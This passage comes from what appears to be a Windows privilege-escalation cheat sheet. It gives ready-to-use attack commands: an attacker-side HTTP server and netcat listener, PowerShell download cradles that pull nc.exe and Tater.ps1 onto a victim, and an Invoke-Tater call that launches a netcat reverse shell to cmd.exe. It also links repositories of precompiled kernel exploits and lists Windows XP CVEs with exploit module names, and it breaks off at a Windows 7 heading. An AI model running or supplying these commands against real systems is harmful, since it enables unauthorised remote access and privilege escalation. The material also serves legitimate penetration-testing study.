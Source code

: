 ##### Exploitation

```
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/Tater.ps1.exe', '.\Tater.ps1.exe')
powershell -exec bypass -command "& { Import-Module .\Tater.ps1; Invoke-Tater -Trigger 1 -Command '.\nc.exe <IP> <PORT> -e cmd.exe' }"
```

#### CVE

```
# Already compiled exploit
https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits
```

##### Windows XP

|      CVE      | Description                                                  |
| :-----------: | :----------------------------------------------------------- |
| CVE-2002-1214 | ms02_063_pptp_dos - exploits a kernel based overflow when sending abnormal PPTP Control Data packets - code execution, DoS |
| CVE-2003-0352 | ms03_026_dcom - exploits a stack buffer overflow in the RPCSS service |
| CVE-2003-0533 | MS04-011 - ms04_011_lsass - exploits a stack buffer overflow in the LSASS service |
| CVE-2003-0719 | ms04_011_pct - exploits a buffer overflow in the Microsoft Windows SSL PCT protocol stack - Private communication target overflow |
| CVE-2003-0812 | ms03_049_netapi - exploits a stack buffer overflow in the NetApi32 |
| CVE-2003-0818 | ms04_007_killbill -  vulnerability in the bit string decoding code in the Microsoft ASN.1 library |
| CVE-2003-0822 | ms03_051_fp30reg_chunked - exploit for the chunked encoding buffer overflow described in MS03-051 |
| CVE-2004-0206 | ms04_031_netdde - exploits a stack buffer overflow in the NetDDE service |
| CVE-2010-3138 | EXPLOIT-DB 14765 - Untrusted search path vulnerability - allows local users to gain privileges via a Trojan horse |
| CVE-2010-3147 | EXPLOIT-DB 14745 - Untrusted search path vulnerability in wab.exe - allows local users to gain privileges via a Trojan horse |
| CVE-2010-3970 | ms11_006_createsizeddibsection - exploits a stack-based buffer overflow in thumbnails within .MIC files - code execution |
| CVE-2011-1345 | Internet Explorer does not properly handle objects in memory - allows remote execution of code via object |
| CVE-2011-5046 | EXPLOIT-DB 18275 - GDI in windows does not properly validate user-mode input - allows remote code execution |
| CVE-2012-4349 | Unquoted windows search path - Windows provides the capability of including spaces in path names - can be root |

##### Windows 7
